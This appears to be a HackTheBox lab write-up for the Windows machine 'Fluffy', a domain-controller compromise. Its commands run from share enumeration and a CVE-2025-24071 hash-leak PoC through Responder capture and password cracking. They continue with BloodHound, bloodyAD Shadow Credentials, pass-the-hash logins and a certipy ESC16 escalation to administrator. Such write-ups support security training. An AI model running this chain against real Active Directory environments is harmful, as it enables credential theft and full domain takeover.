## About Fluffy

**Name:** Fluffy

**Machine:** https://app.hackthebox.com/machines/Fluffy

**Difficulty:** Easy

**OS:** Windows

**Target IP:** 10.129.232.88

**Credentials:** `j.fleischman: J0elTHEM4n1990!`

---
## Recon

I'll start with a standard nmap scan to discover open ports and services:

```
sudo nmap -sC -sV -oA nmap/fluffy -v 10.129.232.88
```

This is a domain controller and WinRM is running too. There's also a 7-hour clock skew between my host and the target. I'll sync time with the target later.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-18 20:56:13Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-18T20:57:40+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-30T16:09:59
| Not valid after:  2106-04-30T16:09:59
| MD5:     f5e3 ec00 5fd1 2a95 a76b 2fd6 4726 4d67
| SHA-1:   6867 9230 5123 dcf1 9352 e081 4148 7fef 13c7 6c0a
|_SHA-256: a90d f4d0 6fe1 9052 822e 708e 65e8 2c70 24d5 8ef7 692a b346 da07 47d5 d81f 36ee
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-30T16:09:59
| Not valid after:  2106-04-30T16:09:59
| MD5:     f5e3 ec00 5fd1 2a95 a76b 2fd6 4726 4d67
| SHA-1:   6867 9230 5123 dcf1 9352 e081 4148 7fef 13c7 6c0a
|_SHA-256: a90d f4d0 6fe1 9052 822e 708e 65e8 2c70 24d5 8ef7 692a b346 da07 47d5 d81f 36ee
|_ssl-date: 2026-08-18T20:57:39+00:00; +6h59m59s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-30T16:09:59
| Not valid after:  2106-04-30T16:09:59
| MD5:     f5e3 ec00 5fd1 2a95 a76b 2fd6 4726 4d67
| SHA-1:   6867 9230 5123 dcf1 9352 e081 4148 7fef 13c7 6c0a
|_SHA-256: a90d f4d0 6fe1 9052 822e 708e 65e8 2c70 24d5 8ef7 692a b346 da07 47d5 d81f 36ee
|_ssl-date: 2026-08-18T20:57:40+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-18T20:57:39+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-30T16:09:59
| Not valid after:  2106-04-30T16:09:59
| MD5:     f5e3 ec00 5fd1 2a95 a76b 2fd6 4726 4d67
| SHA-1:   6867 9230 5123 dcf1 9352 e081 4148 7fef 13c7 6c0a
|_SHA-256: a90d f4d0 6fe1 9052 822e 708e 65e8 2c70 24d5 8ef7 692a b346 da07 47d5 d81f 36ee
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-18T20:57:01
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

The domain is `fluffy.htb` and the hostname is `DC01`. I'll add both to `/etc/hosts`.



## Enumeration

I'm given a starting credential, `j.fleischman:J0elTHEM4n1990!`. It works for `SMB` and `LDAP`, but not `WinRM`.



I'll check what SMB shares this user can reach.



There's read and write access on the `IT` share. I'll connect to it with `smbclient` to look for anything useful:

```
smbclient -U j.fleischman \\\\10.129.232.88\\IT
```



Inside are two directories, two zip files, and a PDF. I'll download the zips and the PDF, then extract everything locally.



Back on the share, the nested directories just hold the same files I already extracted from the zips.



`Upgrade_notice.pdf` turns out to be a patch announcement for the IT department. It lists a few vulnerabilities that need fixing.



Two stand out: `CVE-2025-24996` and `CVE-2025-24071`, both critical. `CVE-2025-24071` is the more well-known one. It works like this: if a `.library-ms` file sits in a folder, and a user just browses to that folder in Explorer, Explorer automatically tries to resolve the file's referenced remote path. That alone is enough to leak the browsing user's NetNTLMv2 hash to an attacker-controlled listener. No file needs to be opened.

## Foothold

I found a [PoC](https://github.com/0x6rss/CVE-2025-24071_PoC.git) for it. I'll clone it and run the script:

```
git clone https://github.com/0x6rss/CVE-2025-24071_PoC.git
python3 poc.py
```



This produces a zip file. Since I have write access to the `IT` share, I'll upload it there. Before that, I'll start `responder` to catch the NTLM hash once someone browses the folder:

```
sudo responder -I tun0 -v
```

I upload `exploit.zip` to the `IT` share and wait.



At first nothing came through, though `tcpdump` showed the target was reaching out to me. After killing and restarting `responder`, I successfully capture an NTLM hash for user `p.agila`.



I throw the hash at `john`, and it cracks to `prometheusx-303`:

```
john --wordlist=/usr/share/wordlists/rockyou.txt p_agila.hash
```



Same pattern as before - these creds work for `SMB` and `LDAP`, but not `WinRM`.



With two valid users now, I'll pull data for BloodHound to map out the AD environment:

```
bloodhound-python -u j.fleischman -p J0elTHEM4n1990! -ns 10.129.232.88 -d fluffy.htb --zip -c all
```

I upload the resulting zip to BloodHound and check `p.agila`'s outbound object control. `p.agila` is a member of the `Service Account Management` group, and that group has `GenericAll` over the `Service Accounts` group.



Before running any attack, I'll sync my clock with the DC:

```
date
sudo timedatectl set-ntp off 
sudo rdate -n 10.129.232.88
```

Since `p.agila` effectively has `GenericAll` on `Service Accounts` through group membership, I can just add himself to that group directly:

```
bloodyad --host 10.129.232.88 -d fluffy.htb -u p.agila -p prometheusx-303 add groupMember "Service Accounts" p.agila
```

Running the "Shortest Path from Owned Objects" query in BloodHound gives a clear map for the next steps.



The `Service Accounts` group has `GenericWrite` over three service accounts:
- `LDAP_SVC` - not in any interesting group, and holds no useful permissions
- `WINRM_SVC` - a member of `Remote Management Users`, meaning I can get a shell as it
- `CA_SVC` - a member of `Cert Publishers`, meaning I can check it for vulnerable certificate templates

`GenericWrite` over an account is enough to run a Shadow Credentials attack. I'll run it against both `winrm_svc` and `ca_svc`:

```
bloodyad --host DC01.fluffy.htb -d fluffy.htb -u p.agila -p prometheusx-303 add shadowCredentials "winrm_svc"
bloodyad --host DC01.fluffy.htb -d fluffy.htb -u p.agila -p prometheusx-303 add shadowCredentials "ca_svc"
```



This returns a TGT and NTLM hash for both accounts. `winrm_svc` is in `Remote Management Users`, so I can log in over `evil-winrm` and read the user flag:

```
evil-winrm -i 10.129.232.88 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```



## Privilege Escalation

Next, I'll check `ca_svc` for vulnerable certificate templates, since it's a member of `Cert Publishers`:

```
certipy-ad find -dc-ip 10.129.232.88 -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -vulnerable -stdout
```



The CA is vulnerable to `ESC16`. This lets me request a certificate as `ca_svc` while temporarily posing as `administrator`, without ever needing the real administrator password.

First, I'll read `ca_svc`'s current UPN, so I can restore it afterward:

```
certipy-ad account -dc-ip 10.129.232.88 -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 -user "ca_svc" read
```



Then I'll change `ca_svc`'s UPN to match `administrator`'s `sAMAccountName`:

```
certipy-ad account -dc-ip 10.129.232.88 -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 -upn 'administrator' -user "ca_svc" update
```



With the UPN swapped, I request a certificate as `ca_svc`. Because of `ESC16`, the issued certificate ends up mapping to `administrator` instead:

```
certipy-ad req -dc-ip 10.129.232.88 -target DC01.fluffy.htb -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -ca fluffy-DC01-CA -template User
```



I'll revert `ca_svc`'s UPN back to its original value, so I don't leave the account in a broken state:

```
certipy-ad account -dc-ip 10.129.232.88 -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 -upn ca_svc@fluffy.htb -user "ca_svc" update
```



Now I can authenticate with the certificate as `administrator`:

```
certipy-ad auth -dc-ip 10.129.232.88 -pfx administrator.pfx -username 'administrator' -domain fluffy.htb 
```



This gives me `administrator`'s NTLM hash. With it, I get a shell as `administrator` and read the root flag:

```
evil-winrm -i 10.129.232.88 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
```



---